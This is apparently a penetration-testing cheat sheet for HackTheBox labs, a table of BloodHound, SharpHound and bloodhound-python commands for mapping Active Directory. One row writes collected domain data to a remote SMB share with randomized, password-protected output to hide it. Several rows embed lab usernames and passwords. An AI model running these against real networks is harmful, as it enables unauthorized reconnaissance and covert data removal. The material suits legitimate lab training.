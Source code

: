 


# BloodHound

| Command                                                                                                                            | Description                                      |
| ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                       | Using BloodHound.py with Kerberos authentication |
